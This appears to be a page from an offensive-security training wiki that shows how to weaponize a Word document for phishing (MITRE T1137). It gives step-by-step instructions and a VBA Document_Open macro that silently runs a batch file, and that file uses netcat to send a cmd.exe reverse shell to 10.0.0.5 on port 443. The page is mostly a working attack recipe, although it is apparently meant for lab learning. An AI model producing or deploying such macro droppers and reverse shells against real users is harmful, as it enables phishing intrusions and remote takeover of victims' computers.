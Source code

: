 ```yaml
---
description: MITRE ATT&CK™ T1137 - Phishing
---
```

# Visual Basic for Application (VBA)

## Theory

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications. 

{% hint style="error" %}
VBAs/macros by themselves do not inherently bypass any detections.
{% endhint %}

## Practice


{% tabs %}

{% tab title="Basic Usage" %}

1 - Create new word document (CTRL+N)  
2 - Hit ALT+F11 to go into Macro editor  
3 - Double click into the "This document" and CTRL+C/V the below:  

```bash
#Macro
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```

```bash
#C:\tools\shell.cmd
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```

4 - ALT+F11 to switch back to the document editing mode  
5 - Save the file as a macro enabled document, for example as dotm, Word 97-2003 Document.    


{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}
{% embed url="https://www.ired.team/offensive-security/code-execution/t1216-signed-script-ce" %}
